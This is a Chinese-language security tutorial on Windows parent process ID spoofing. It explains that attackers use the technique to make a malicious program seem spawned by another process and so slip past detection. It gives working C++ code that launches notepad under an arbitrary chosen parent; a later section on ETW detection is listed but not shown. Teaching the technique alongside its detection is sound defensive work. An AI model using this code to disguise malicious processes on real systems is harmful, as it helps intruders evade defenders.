 0x00 前言
-------

不多bb，今天我们一起学习 PPID Spoofing（父进程id欺骗）。

本文主要内容如下：

- ppid spoofing 的目的和原理
- 如何实现 ppid spoofing
- 检测 ppid spoofing 之 ETW 的使用
- 利用和检测工具

0x01 目的和原理
----------

PPID欺骗是一种允许攻击者选择任意进程启动其恶意程序的技术。这可以让攻击者的程序看起来是由另一个进程产生的，主要用于逃避基于父/子进程关系的检测。

例如，默认情况下，大多数需要用户交互启动的程序都是由`explorer.exe`生成的，比如我们在桌面新建一个**文本文档**，然后用记事本打开，效果如下图：

> 这里会用到 [Process Explorer](https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer) 或者 [Process Hacker](https://processhacker.sourceforge.io/downloads.php) 观察进程之间的关系。

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-db5108387d061f9da9a86625ad69435bfad6d929.png)

可以看到很明显的父子关系。`explorer.exe`-&gt;`notepad.exe`

然而，通过下面的代码，我们可以让`notepad.exe`看起来好像是由`onenote.exe`（PID：12896）产生的。

> 代码的具体意思，后面会一一解释，这里先直接用。

```cpp
#define _CRT_SECURE_NO_WARNINGS

#include <windows.h>
#include <TlHelp32.h>
#include <iostream>

int main()
{
    STARTUPINFOEXA si;
    PROCESS_INFORMATION pi;
    SIZE_T attributeSize;
    ZeroMemory(&si, sizeof(STARTUPINFOEXA));

    // 要修改这里的 pid
    HANDLE parentProcessHandle = OpenProcess(MAXIMUM_ALLOWED, false, 12896);

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
    si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);

    return 0;
}
```
